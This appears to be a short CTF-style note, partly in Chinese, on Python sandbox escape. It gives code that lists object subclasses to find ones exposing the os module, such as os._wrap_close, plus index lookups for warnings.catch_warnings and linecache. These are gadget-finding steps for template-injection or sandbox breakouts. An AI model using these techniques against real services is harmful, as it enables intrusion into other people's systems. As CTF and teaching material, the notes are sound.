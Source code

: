 ```python
count = -1
for i in ''.__class__.__mro__[-1].__subclasses__():
	count += 1
	if "warpper" in repr(i.__init__):
		pass
	else:
		try:
			if "os" in repr(i.__init__.__globals__):
				print(count, i)
		except:
			pass
```



远程

```python
import json

a = """
<class 'type'>,...,<class 'subprocess.Popen'>
"""

num = 0
allList = []

result = ""
for i in a:
    if i == ">":
        result += i
        allList.append(result)
        result = ""
    elif i == "\n" or i == ",":
        continue
    else:
        result += i
        
for k,v in enumerate(allList):
    if "os._wrap_close" in v:
        print(str(k)+"--->"+v)
```

或者直接利用题目环境直接搜出来，例如：

```
查看warnings.catch_warnings方法的位置
[].__class__.__base__.__subclasses__().index(warnings.catch_warnings)
查看linecatch的位置
[].__class__.__base__.__subclasses__()[59].__init__.__globals__.keys().index('linecache')

剩下的以此类推
```
